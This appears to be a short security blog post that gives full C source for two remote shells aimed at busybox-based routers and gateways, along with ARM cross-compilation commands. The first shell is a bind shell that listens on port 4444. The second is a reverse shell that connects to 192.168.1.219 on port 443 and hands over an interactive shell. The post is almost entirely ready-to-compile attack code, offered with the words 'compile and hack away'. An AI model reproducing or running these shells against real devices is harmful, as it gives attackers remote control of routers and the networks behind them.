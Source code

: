 ```yaml
---
title: "C Shells for Routers & Gateways"
date: 2019-05-02T20:24:45+02:00
draft: false
categories:
- posts
tags:
- security
- shells
keywords:
- security
- shells
- embedded
coverSize: partial
coverMeta: in
autoThumbnailImage: true
---
```


Today at work, we made these two C Shells for embedded devices that run busybox. One is a bind shell and the other is a reverse shell.<!--more--> This was tested on a rooted home gateway that was running of an armv7l CPU. I compiled this on Ubuntu 16.04.6 LTS, therefore needing the cross-compilation libraries and tools.

Installing the libraries & tools:
```bash
root@ubuntu:~/asm$ sudo apt-get install gcc-arm-linux-gnueabi binutils-arm-linux-gnueabi libncurses5-dev libc6-armel-cross
```

Compiling:
```bash
root@ubuntu:~/asm$ arm-linux-gnueabi-gcc shell.c -g -o shell
```
If you need some shells that may work in some OpenWRT Devices, then compile and hack away!

<hr>

### Bind Shell
```
#include <sys/socket.h>
#include <sys/types.h>
#include <netinet/in.h>
#include <stdlib.h>
#include <unistd.h>
#define LOCAL_PORT 4444

int main()
{
  int resultfd, sockfd;
  struct sockaddr_in my_addr;
  char *args[] = { "/bin/busybox", "sh", NULL};
  sockfd = socket(AF_INET, SOCK_STREAM, 0);

  int one = 1;
  setsockopt(sockfd, SOL_SOCKET, SO_REUSEADDR, &one, sizeof(one));

  my_addr.sin_family = AF_INET; // 2
  my_addr.sin_port = htons(LOCAL_PORT); // port number
  my_addr.sin_addr.s_addr = INADDR_ANY; // 0 fill with the local IP

  bind(sockfd, (struct sockaddr *) &my_addr, sizeof(my_addr));
  listen(sockfd, 0);
  resultfd = accept(sockfd, NULL, NULL);
  dup2(resultfd, 2);
  dup2(resultfd, 1);
  dup2(resultfd, 0);
  execve(args[0], &args[0], 0);
  return 0;
}
```

### Reverse Shell
```
#include <stdio.h>
#include <unistd.h>
#include <netinet/in.h>
#include <sys/types.h>
#include <sys/socket.h>
#include <arpa/inet.h>
#define REMOTE_ADDR "192.168.1.219"
#define REMOTE_PORT 443

int main(int argc, char *argv[])
{
  struct sockaddr_in sa;
  int s;
  char *args[] = { "/bin/busybox", "sh", NULL};
  sa.sin_family = AF_INET;
  sa.sin_addr.s_addr = inet_addr(REMOTE_ADDR);
  sa.sin_port = htons(REMOTE_PORT);
  s = socket(AF_INET, SOCK_STREAM, 0);
  connect(s, (struct sockaddr *)&sa, sizeof(sa));
  dup2(s, 0);
  dup2(s, 1);
  dup2(s, 2);
  execve(args[0], &args[0], 0);
  return 0;
}
```
